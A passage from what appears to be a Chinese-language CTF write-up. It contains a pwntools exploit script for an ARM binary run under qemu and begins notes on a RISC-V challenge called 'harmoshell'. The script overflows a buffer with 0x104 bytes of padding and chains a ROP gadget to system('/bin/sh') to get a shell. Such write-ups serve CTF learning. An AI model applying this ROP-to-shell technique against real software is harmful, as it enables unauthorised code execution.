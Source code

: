 ```python
    p = process(["qemu-arm-static", "./"+binary_name])
else:
    p=remote('',)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
      
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))
    
libcbase = 0x3fed4000
p_r0_r4 = libcbase+0x0005bcbc
bin_sh = libcbase+0x000dc9e8

system = libcbase+libc.sym['system']
print(hex(system))

sla('input:',b'a'*0x104+p32(p_r0_r4)+p32(bin_sh)+p32(0)+p32(system))    
ia()
```



## harmoshell

[附件](https://github.com/X1ngn/ctf/blob/master/pwn_harmoshell.zip)

- 神奇的RISC-V架构，ida不支持，后来才知道可以用9.2版本以上的[ghidra](https://ghidra-sre.org/)打开

- 汇编代码有种ARM的感觉，所以比较简单的语句大致可以看懂（猜到

- 调试的时候pwngdb也不支持，还得把pwngdb关掉

    ```
    vim ~/.gdbinit
    ```

    把pwndbg的那一行注释掉

- gdb调试
